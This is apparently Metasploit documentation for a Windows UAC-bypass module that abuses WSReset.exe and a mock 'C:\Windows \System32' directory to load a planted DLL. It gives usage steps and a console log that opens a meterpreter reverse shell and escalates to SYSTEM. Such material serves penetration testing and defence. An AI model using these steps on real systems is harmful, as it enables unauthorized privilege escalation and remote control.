 ## Intro

This module exploits a flaw in the WSReset.exe Windows Store Reset Tool. The tool
is run with the "autoElevate" property set to true, however it can be moved to
a new Windows directory containing a space (C:\Windows \System32\) where, upon
execution, it will load our payload dll (propsys.dll).

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_windows_store_filesys`.
1. Set the `PAYLOAD` and configure it correctly, making sure the architecture is correct.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenario

### Windows 10.0.17134.885 x64

```
msf5 exploit(multi/handler) > use exploit/windows/local/bypassuac_windows_store_filesys
msf5 exploit(windows/local/bypassuac_windows_store_filesys) > set SESSION 1
SESSION => 1
msf5 exploit(windows/local/bypassuac_windows_store_filesys) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/bypassuac_windows_store_filesys) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/bypassuac_windows_store_filesys) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(windows/local/bypassuac_windows_store_filesys) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Creating directory 'C:\Windows \'...
[*] Creating directory 'C:\Windows \System32\'...
[*] Creating payload 'C:\Windows \System32\propsys.dll'...
[*] Executing WSReset.exe...
[!] This exploit requires manual cleanup of the 'C:\Windows \' and 'C:\Windows \System32\' directories!
[*] Sending stage (206403 bytes) to 192.168.56.3
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.3:49803) at 2019-08-24 13:20:11 +0800

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter >
```
